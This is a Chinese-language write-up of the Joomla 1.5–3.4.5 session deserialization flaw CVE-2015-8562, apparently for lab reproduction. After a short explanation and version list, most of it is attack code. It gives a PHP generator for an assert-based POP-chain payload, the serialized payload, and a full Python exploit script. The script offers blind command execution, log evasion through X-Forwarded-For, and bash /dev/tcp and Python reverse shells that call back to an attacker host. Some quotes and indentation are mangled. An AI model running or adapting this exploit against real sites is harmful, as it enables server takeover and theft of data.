


# （CVE-2015-8562）Joomla 3.4.5 反序列化漏洞

## 一、漏洞简介

本漏洞根源是PHP5.6.13前的版本在读取存储好的session时，如果反序列化出错则会跳过当前一段数据而去反序列化下一段数据。而Joomla将session存储在Mysql数据库中，编码是utf8，当我们插入4字节的utf8数据时则会导致截断。截断后的数据在反序列化时就会失败，最后触发反序列化漏洞。

## 二、漏洞影响

*   Joomla 1.5.x, 2.x, and 3.x before 3.4.6
*   PHP 5.6 < 5.6.13, PHP 5.5 < 5.5.29 and PHP 5.4 < 5.4.45

## 三、复现过程

我们不带User-Agent头，先访问一次目标主页，记下服务端返回的Cookie：


再用如下脚本生成POC：

```
<?php
class JSimplepieFactory {
}
class JDatabaseDriverMysql {

}

class SimplePie {

var $sanitize;

var $cache;

var $cache_name_function;

var $javascript;

var $feed_url;

function __construct()

{

$this->feed_url = “phpinfo();JFactory::getConfig();exit;”;

$this->javascript = 9999;

$this->cache_name_function = “assert”;

$this->sanitize = new JDatabaseDriverMysql();

$this->cache = true;

}

}

class JDatabaseDriverMysqli {

protected $a;

protected $disconnectHandlers;

protected $connection;

function __construct()

{

$this->a = new JSimplepieFactory();

$x = new SimplePie();

$this->connection = 1;

$this->disconnectHandlers = [

[$x, “init”],

];

}

}

$a = new JDatabaseDriverMysqli();

$poc = serialize($a);

$poc = str_replace("\x00*\x00", ‘\0\0\0’, $poc); `echo “123}__test|{$poc}\xF0\x9D\x8C\x86”;` 
```



```
123}__test|O:21:"JDatabaseDriverMysqli":3:{s:4:"\0\0\0a";O:17:"JSimplepieFactory":0:{}s:21:"\0\0\0disconnectHandlers";a:1:{i:0;a:2:{i:0;O:9:"SimplePie":5:{s:8:"sanitize";O:20:"JDatabaseDriverMysql":0:{}s:5:"cache";b:1;s:19:"cache_name_function";s:6:"assert";s:10:"javascript";i:9999;s:8:"feed_url";s:37:"phpinfo();JFactory::getConfig();exit;";}i:1;s:4:"init";}}s:13:"\0\0\0connection";i:1;}? 
```

将生成好的POC作为User-Agent，带上第一步获取的Cookie发包，这一次发包，脏数据进入Mysql数据库。然后同样的包再发一次，我们的代码被执行：



### poc

Blind RCE:

```
python joomla-cve-2015-8562.py -t http://<target_ip>/ --cmd
$ touch /tmp/test 
```

Spawn Reverse Shell:

```
python joomla-cve-2015-8562.py -t http://<target_ip>/ -l <local_ip> -p <local_port>
[-] Attempting to exploit Joomla RCE (CVE-2015-8562) on: http://<target_ip>/
[-] Uploading python reverse shell
<Response [200]>
[+] Spawning reverse shell....
<Response [200]>
Listening on [0.0.0.0] (family 0, port 1337)
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data) 
```

```
#!/usr/bin/python

# Exploit Title: Joomla 1.5 - 3.4.5 Object Injection RCE

# Date: 15/09/2017

# Author: Gary@ Sec-1 ltd

# Modified: Andrew McNicol BreakPoint Labs (@0xcc_labs)

# Modified: Paolo Stagno (@Void_Sec) - [https://voidsec.com](https://voidsec.com)

# Vendor Homepage: [https://www.joomla.org/](https://www.joomla.org/)

# Software Link: [http://joomlacode.org/gf/project/joomla/frs/](http://joomlacode.org/gf/project/joomla/frs/)

# Version: Joomla 1.5 - 3.4.5

# Tested on: Debian 3.2.89-2 x86_64 GNU/Linux (Joomla! 3.2.1 Stable)

# CVE : CVE-2015-8562

‘’’

Blind RCE:

python joomla-cve-2015-8562.py -t [http://192.168.0.1/](http://192.168.0.1/) --cmd

$ touch /tmp/test

Spawn Reverse Shell:

python joomla-cve-2015-8562.py -t [http://192.168.0.1/](http://192.168.0.1/) -l 192.168.0.2 -p 1337

[-] Attempting to exploit Joomla RCE (CVE-2015-8562) on: [http://192.168.0.1/](http://192.168.0.1/)

[-] Uploading python reverse shell with LHOST:192.168.1.119 and LPORT:1337

<Response [200]>

[+] Spawning reverse shell…

<Response [200]>

Listening on [0.0.0.0] (family 0, port 1337)

$ id

uid=33(www-data) gid=33(www-data) groups=33(www-data)

‘’’

import requests

import subprocess

import argparse

import sys

import base64

import string

import random

import time

import urllib3

def id_generator(size=6, chars=string.ascii_uppercase + string.digits):

return str(’’.join(random.choice(chars) for _ in range(size)))

def get_url(url, user_agent, ua_method, proxyDict):

if ua_method == True :

# Defaul PoC

headers = {

‘User-Agent’: user_agent

}

else:

# Firefox user_agent and x-forwarded-for method to evade log and lower detection

headers = {

‘User-Agent’: ‘Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0’,

‘X-Forwarded-For’: user_agent

}

try:

cookies = requests.get(url,headers=headers, proxies=proxyDict, verify=False).cookies

for _ in range(3):

response = requests.get(url, headers=headers,cookies=cookies, proxies=proxyDict, verify=False)

return response

except requests.exceptions.MissingSchema:

print “\033[1;31;10m\n[!] Missing http:// or https:// from Target URL\n\033[1;37;10m”

sys.exit(1)

def php_str_noquotes(data):

#Convert string to chr(xx).chr(xx) for use in php

encoded = “”

for char in data:

encoded += “chr({0}).”.format(ord(char))

```
return encoded[:-1] 
```

def generate_payload(php_payload):

php_payload = “eval({0})”.format(php_str_noquotes(php_payload))

terminate = ‘\xf0\xfd\xfd\xfd’;

exploit_template = r’’’}__test|O:21:“JDatabaseDriverMysqli”:3:{s:2:“fc”;O:17:“JSimplepieFactory”:0:{}s:21:"\0\0\0disconnectHandlers";a:1:{i:0;a:2:{i:0;O:9:“SimplePie”:5:{s:8:“sanitize”;O:20:“JDatabaseDriverMysql”:0:{}s:8:“feed_url”;’’’

injected_payload = “{};JFactory::getConfig();exit”.format(php_payload)

exploit_template += r’’‘s:{0}:"{1}"’’’.format(str(len(injected_payload)), injected_payload)

exploit_template += r’’’;s:19:“cache_name_function”;s:6:“assert”;s:5:“cache”;b:1;s:11:“cache_class”;O:20:“JDatabaseDriverMysql”:0:{}}i:1;s:4:“init”;}}s:13:"\0\0\0connection";b:1;}’’’ + terminate

```
return exploit_template 
```

def main():

parser = argparse.ArgumentParser(prog=‘joomla-cve-2015-8562.py’, description=’\033[1;37;10mJoomla Object Injection RCE CVE-2015-8652’)

parser.add_argument(’-t’, dest=‘RHOST’, required=True, help=’\033[1;37;10mRemote Target Joomla Server (http://<target ip>)’)

parser.add_argument(’-l’, dest=‘LHOST’, help=’\033[1;37;10mLocal IP for Reverse Shell’)

parser.add_argument(’-p’, dest=‘LPORT’, help=’\033[1;37;10mLocal Port for Reverse Shell’)

parser.add_argument(’–cmd’, dest=‘cmd’, action=‘store_true’, help=’\033[1;37;10mDrop into blind RCE’)

parser.add_argument(’–u’, dest=‘method’, action=‘store_true’, help=’\033[1;37;10mSwitch from X-Forwarded-For to User-Agent (less stealthy)’)

parser.add_argument(’–b’, dest=‘bash’, action=‘store_true’, help=’\033[1;37;10mSwitch from Python reverse shell to Bash’)

parser.add_argument(’–proxy’, dest=‘proxy’, default=‘None’, help=’\033[1;37;10mIP of web proxy to go through ([http://127.0.0.1:8080](http://127.0.0.1:8080))’)

args = parser.parse_args()

```
if args.proxy is not None:
	proxyDict = { "http"  : args.proxy, "https" : args.proxy }
else:
	proxyDict = {}
if args.cmd:
	print "\033[1;37;10m[-] Attempting to exploit Joomla RCE (CVE-2015-8562) on: {}".format(args.RHOST)
	print "\033[1;32;10m[+] Dropping into shell-like environment to perform blind RCE"
	while True:
		command = raw_input('\033[1;37;10m$ ')
		cmd_str = "system('{}');".format(command)
		pl = generate_payload(cmd_str)
		print get_url(args.RHOST, pl, args.method, proxyDict)

# Spawn Reverse Shell using Netcat listener &amp; Python shell on victim
elif args.LPORT and args.LPORT:
	shell_name = id_generator()
	connection = "'{}', {}".format(args.LHOST, args.LPORT)

	if args.bash == True :
		comm = "bash"
		shell_name = shell_name+".sh"
		# pentestmonkey's Bash reverse shell one-liner:
		str_shell = 'bash -i &gt;&amp; /dev/tcp/{}/{} 0&gt;&amp;1'.format(args.LHOST, args.LPORT)
		payload = '''echo "'''+str_shell+'''" &gt; /tmp/'''+shell_name+''''''
	else :
		comm = "python"
		shell_name = shell_name+".py"
		# pentestmonkey's Python reverse shell one-liner:
		str_shell = '''import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('''+connection+'''));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'''
		# Base64 encoded the Python reverse shell as some chars were messing up in the exploit
		encoded_comm = base64.b64encode(str_shell)
		payload = "echo {} | base64 -d &gt; /tmp/{}".format(encoded_comm, shell_name)

	print "\033[1;37;10m[-] Attempting to exploit Joomla RCE (CVE-2015-8562) on: {}".format(args.RHOST)
	print "\033[1;32;10m[+] Spawning listener on {}:{}".format(args.LHOST, args.LPORT)		
	listener = subprocess.Popen(args=["gnome-terminal", "--command=nc -lvp "+args.LPORT])
	time.sleep(5)
	print "\033[1;37;10m[-] Uploading reverse shell to /tmp/{}".format(shell_name)
	pl = generate_payload("system('"+payload+"');")
	print get_url(args.RHOST, pl, args.method, proxyDict)
	time.sleep(2)
	print "\033[1;32;10m[+] Spawning reverse shell..."
	print "\033[1;33;10m[-] Check if the listener caught the shell\033[1;37;10m"
	pl = generate_payload("system('{} /tmp/{}');".format(comm, shell_name))
	print get_url(args.RHOST, pl, args.method, proxyDict)
else:
	print '\033[1;31;10m\n[!] Missing Arguments\n\033[1;37;10m'
	parser.print_help() 
``` `if **name** == “**main**”:

try:

# Suppress SSL Warning due to unverified HTTPS requests.

# See: [https://urllib3.readthedocs.io/en/latest/advanced-usage.html#ssl-warnings](https://urllib3.readthedocs.io/en/latest/advanced-usage.html#ssl-warnings)

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

main()

except KeyboardInterrupt:

print “\033[1;31;10mQuitting…”

sys.exit(0)` 
```

## 参考链接

> https://github.com/vulhub/vulhub/tree/master/joomla/CVE-2015-8562

> https://github.com/VoidSec/Joomla_CVE-2015-8562